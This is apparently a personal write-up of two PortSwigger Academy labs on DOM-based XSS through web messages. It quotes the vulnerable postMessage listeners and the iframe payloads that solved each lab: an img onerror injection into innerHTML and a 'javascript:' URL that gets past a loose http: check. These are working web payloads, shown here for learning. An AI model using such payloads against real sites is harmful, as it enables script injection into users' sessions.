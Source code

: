 ## DOM-Based Vulnerabilities 

### DOM XSS Using Web Messages
- Exploit server to post a message to the target site that causes the `print()` function to be called.
- When I loaded the lab, I noticed this odd `[object Object` that was appearing at the top of the homepage. I reviewed the source code, and I saw the following JavaScript. I recognized the `innerHTML` as bad immediately. So it's getting the document with element id of `ads`. Unlike the resource available at https://portswigger.net/web-security/dom-based/controlling-the-web-message-source, this is not being passed into an `eval()` function.
- The issue here is that the  event listener does not verify the origin of the message, and the postMessage() from the iframe specifies targetOrigin as *, the event listener accepts the payload and passes it into the sink.
```
<script>
                        window.addEventListener('message', function(e) {
                            document.getElementById('ads').innerHTML = e.data;
                        })
                    </script>
```
- So let's construct an iframe ... at first, I was really confused because I could not get the script tags to work. Then I found this: "The `innerHTML` sink doesn't accept `script` elements on any modern browser, nor will `svg onload` events fire. This means you will need to use alternative elements like `img` or `iframe`. Event handlers such as `onload` and `onerror` can be used in conjunction with these elements."
  - I started with `<iframe src="https://0a8b009b04034dbd81757127009a00ac.web-security-academy.net/" width="2000" height="2000" onload="this.contentWindow.postMessage('</div></div><script>print()</script>','*')">`, and then I transformed it to this: `<iframe src="https://0a8b009b04034dbd81757127009a00ac.web-security-academy.net/" width="2000" height="2000" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">` which solved the lab (resulting in the print popup window!). 
<img width="2542" height="1353" alt="image" src="https://github.com/user-attachments/assets/47ecf6a9-5ae3-4025-9725-c6f0af766487" />

### DOM XSS Using Web Messages and JavaScript URL
- I knew it was a DOM-based redirection vulnerability through web messaging, so I just needed to locate it. I noticed there was comment functionality on the blog posts of the web app, so I focused there.
- The comment functionality allows a user to provide a website, which is then linked to the username. Upon pressing the username, the user is redirected to the website ... this must be where the vulnerability is. Let's take a look...wait, there's no web messaging functionality here. This must not be it. Good place to look for another lab, but let's move on ...
- Ah, I found it on the homepage...there's the sink, `location.href`, which is the full URL of the current page. We know that we need to construct an HTML page on the exploit server to solve this lab:
```

                        window.addEventListener('message', function(e) {
                            var url = e.data;
                            if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
                                location.href = url;
                            }
                        }, false);

```
- I struggled with constructing the payload here. I knew it needed to have `https:` or `http:`, and I knew it was a JavaScript URL. I attempted `<iframe src="https://0aad00b0039dc1f980ba1c2e003f00ae.web-security-academy.net/" width="2000" height="2000" onload="this.contentWindow.postMessage('javascript:print(); http:','*')">` thinking the semicolon would terminate it, but I wasn't really considering the rest of the message - the http:. What I needed to do instead was comment out the rest with JavaScript comment, `//`, to prevent a syntax error or whatever that was causing the failure on my origina attempt ... so the final payload is `<iframe src="https://0aad00b0039dc1f980ba1c2e003f00ae.web-security-academy.net/" width="2000" height="2000" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">`.
